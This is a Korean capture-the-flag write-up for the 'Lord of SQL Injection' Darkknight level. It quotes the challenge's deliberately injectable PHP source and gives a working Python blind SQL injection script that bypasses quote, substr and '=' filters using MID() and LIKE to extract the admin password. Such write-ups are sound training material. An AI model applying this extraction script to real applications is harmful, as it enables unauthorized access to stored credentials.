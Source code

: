 # Lord of SQL Injection No.12 Darknight

Darknight 문제는 `'`, `substr`, `ascii`, `=` 를 사용하지 않고 Blind SQL injection을 하도록 유도한 문제이다.

## 소스 코드
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```
```php
if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe");
```

`preg_match` 함수에서 `'`, `substr`, `ascii`, `=` 을 필터링하면 `HeHe`를 출력하고 문제 풀이에 실패하게 된다.

```php
$query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
```

`'` 를 필터링하기 때문에 이전에 계속 사용해왔던 방식인 `$_GET[pw]`를 `'`로 닫고 `or`문으로 원하는 값을 추출해 내는 방법을 사용할 수가 없다.

#### 문제 풀이 조건

```php
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight");
```

DB에 저장된 `pw` 값과 입력받은 `pw` 값이 일치하면 문제 풀이에 성공하게 된다.

## Solution

```python
import urllib.request   # python 라이브러리에 내장된 urllib.request 를 불러온다.
from urllib.parse import quote

result = "" # pw 값을 저장할 문자열 변수
pwlen = 0

for i in range(1,10):
    url = "http://los.eagle-jump.org/darkknight_f76e2eebfeeeec2b7699a9ae976f574d.php?no="
    add_url = '-1 or length(pw) like {} -- ;'.format(i)
    print("Searching Password Length.. [{}]".format(i))
    add_url = quote(add_url)
    new_url = url + add_url
    re = urllib.request.Request(new_url)
    re.add_header("User-Agent","Mozilla/5.0")
    re.add_header("Cookie", "PHPSESSID=6d7n06fn55kjoc4fas5vuh24j4")
    response = urllib.request.urlopen(re)

    if str(response.read()).find("Hello admin") != -1:
        pwlen = i
        print("Found length!! => {}".format(pwlen))
        break

for i in range(1,pwlen+1):
    for j in range(ord('0'),ord('z')):
        url = "http://los.eagle-jump.org/darkknight_f76e2eebfeeeec2b7699a9ae976f574d.php?no="
        add_url = '-1 or MID(pw,1,{}) like "{}" -- ;'.format(str(i), result+chr(j))
        print("Searching.. - {0}{1}".format(url, add_url))
        add_url = quote(add_url)
        new_url = url + add_url
        re = urllib.request.Request(new_url)

        re.add_header("User-Agent","Mozilla/5.0")
        re.add_header("Cookie", "PHPSESSID=6d7n06fn55kjoc4fas5vuh24j4")

        request = urllib.request.urlopen(re)

        if str(request.read()).find("Hello admin") != -1:
            result += chr(j).lower()
            print("Found it!! => " + result)
            break

print("Finished Searching.")
print("Password : " + result)
```

`pw`를 입력받는 부분은 `'`를 쓸 수 없기 때문에 `'`를 이용하여 우회할 수가 없다. 그렇기 때문에 `pw` 뒤에 나오는 `$_GET[no]`를 이용하여 문제를 풀 수 있다.

`no=-1`을 이용하여 다음 or 연산을 무조건 실행시키게 만든다.

이전 문제에서는 `substr`과 함께 `()`까지 함께 묶어 `substr()`를 필터링했기 때문에 `substring()`으로 우회가 가능했다.
하지만 이번 문제에서는 `substr`이라는 문자열 자체만을 필터링하기 때문에 `substring()`을 사용한 우회가 불가능하다.
`substr`을 우회하기 위해 사용한 함수는 이전 코드에서도 사용했던 `MID()` 함수이다.

* [MID 함수를 사용한 No.11 Golem Writeup 보러가기](https://github.com/JaehunYoon/los_writeup/blob/master/los_no11_golem.md)

`=`을 우회하기 위해 이전 문제와 같이 `like`를 사용하였다.

`for`문이 끝나면 `pw`값은 `1c62ba6f`가 나오게 된다.

```
http://los.eagle-jump.org/darkknight_***.php?pw=1c62ba6f
```

URL에 추출한 `pw`값인 `1c62ba6f`를 삽입하면 DB의 `pw` 값과 일치하기 때문에 문제 풀이에 성공하게 된다.